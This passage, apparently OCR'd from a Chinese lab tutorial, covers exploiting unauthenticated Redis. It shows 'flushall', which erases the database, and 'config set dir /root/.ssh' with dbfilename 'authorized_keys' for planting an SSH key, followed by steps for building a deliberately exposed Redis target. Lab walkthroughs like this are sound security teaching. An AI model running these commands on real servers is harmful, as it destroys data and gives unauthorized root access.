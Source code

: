 删除所有键

```
192.168.85.132:6379>flushall
```

设置redis本地存储的文件夹和文件名

```
192.168.85.132:6379>config set dir /root/.ssh 
192.168.85.132:6379>config set dbfilename authorized_keys
```





## 漏洞环境搭建

### 攻击机

操作系统：ubuntu 16.04

ip ：192.168.85.128



安装redis

```
sudo apt-get update
sudo apt-get install redis-server
```

### 靶机

操作系统： centos 6.5

ip ：192.168.85.132



下载编译redis

```
wget http://download.redis.io/releases/redis-3.2.0.tar.gz
tar xzvf redis-3.2.0.tar.gz
cd redis-3.2.0
make
```



修改下配置文件，不然默认虽然是无密码，但是会有protected模式，导致无法从外部主机连接

```
vim redis.conf
```

bind 127.0.0.1前面加上#号   protected-mode设为no 



启动redis
